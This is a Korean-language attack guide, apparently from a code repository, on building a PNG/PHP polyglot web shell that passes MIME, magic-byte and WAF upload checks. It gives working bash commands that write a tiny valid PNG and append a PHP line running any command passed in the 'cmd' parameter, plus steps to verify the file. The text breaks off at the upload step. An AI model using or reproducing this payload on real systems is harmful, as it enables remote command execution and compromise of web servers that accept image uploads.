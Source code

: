 # 🖼️ PNG 웹쉘 (Polyglot File) 공격 가이드

## 🎯 개념

**PNG 웹쉘 = 정상 이미지 + PHP 코드**

파일이 PNG 매직 바이트로 시작하여:
- ✅ 이미지 뷰어로 열면 → 정상 이미지
- ✅ PHP로 실행하면 → 웹쉘 동작
- ✅ MIME 검증 우회
- ✅ 매직 바이트 검증 우회
- ✅ WAF 우회 (이미지로 인식)

---

## 🛠️ 방법 1: PNG 주석에 PHP 코드 삽입 (가장 간단)

### Step 1: PNG 웹쉘 생성

```bash
# 작은 PNG 이미지 생성 (1x1 투명 픽셀)
printf '\x89\x50\x4e\x47\x0d\x0a\x1a\x0a\x00\x00\x00\x0d\x49\x48\x44\x52\x00\x00\x00\x01\x00\x00\x00\x01\x08\x06\x00\x00\x00\x1f\x15\xc4\x89\x00\x00\x00\x0a\x49\x44\x41\x54\x78\x9c\x63\x00\x01\x00\x00\x05\x00\x01\x0d\x0a\x2d\xb4\x00\x00\x00\x00\x49\x45\x4e\x44\xae\x42\x60\x82' > shell.png

# PHP 코드 추가
echo '<?php system($_GET["cmd"]); ?>' >> shell.png

# 또는 한 줄로
printf '\x89\x50\x4e\x47\x0d\x0a\x1a\x0a\x00\x00\x00\x0d\x49\x48\x44\x52\x00\x00\x00\x01\x00\x00\x00\x01\x08\x06\x00\x00\x00\x1f\x15\xc4\x89\x00\x00\x00\x0a\x49\x44\x41\x54\x78\x9c\x63\x00\x01\x00\x00\x05\x00\x01\x0d\x0a\x2d\xb4\x00\x00\x00\x00\x49\x45\x4e\x44\xae\x42\x60\x82<?php system($_GET["cmd"]); ?>' > shell.png
```

### Step 2: 검증

```bash
# PNG 매직 바이트 확인
file shell.png
# 출력: shell.png: PNG image data, 1 x 1, 8-bit/color RGBA, non-interlaced

# PHP 코드 확인
cat shell.png | tail -c 50
# 출력: <?php system($_GET["cmd"]); ?>

# 이미지 뷰어로 열기 (정상 이미지로 보임)
```

### Step 3: 업로드
